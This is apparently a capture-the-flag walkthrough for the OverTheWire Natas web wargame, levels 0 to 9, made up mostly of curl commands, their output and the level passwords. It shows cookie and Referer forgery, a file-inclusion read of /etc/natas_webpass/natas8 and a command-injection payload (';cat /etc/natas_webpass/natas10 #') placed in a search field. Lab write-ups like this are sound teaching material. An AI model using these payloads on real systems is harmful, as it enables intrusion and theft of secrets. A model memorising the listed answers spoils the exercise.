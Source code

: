 # Natas

## level 0

```
$ curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org/
```

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

## level 1

```
$ curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org/
```

```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## level 2

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/
```

I find a label.

```
<img src="files/pixel.png">
```

There is a ```users.txt``` in the same directory and password for natas3 is in it.

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
```

```
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

## level 3

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/
```

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Check the ```robots.txt```.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```

There is also a ```user.txt``` with password for the next level.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## level 4

This level determines whether we come from ```http://natas5.natas.labs.overthewire.org/``` by ```Referer``` header field.

```
$ curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer:http://natas5.natas.labs.overthewire.org/'
```

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## level 5

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Find ```Set-Cookie: loggedin=0```.

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -b 'loggedin=1'
```

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## level 6

Access ```http://natas6.natas.labs.overthewire.org/index-source.html``` and find ```include "includes/secret.inc";```.

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
$secret = "FOEIUWGHFEEUHOFUOIU";
```

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## level 7

```
$ curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

## level 8

Access ```http://natas8.natas.labs.overthewire.org/index-source.html```.

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
```

Decode the secret.

```
$ echo 3d3d516343746d4d6d6c315669563362 | xxd -p -r | rev | base64 -d
oubWYf2kBq
```

```
$ curl -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org/ -d 'secret=oubWYf2kBq&submit=Submit'
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## level 9

Access ```http://natas9.natas.labs.overthewire.org/index-source.html```.

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -F 'needle=;cat /etc/natas_webpass/natas10 #' -F 'submit=Search'
```

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
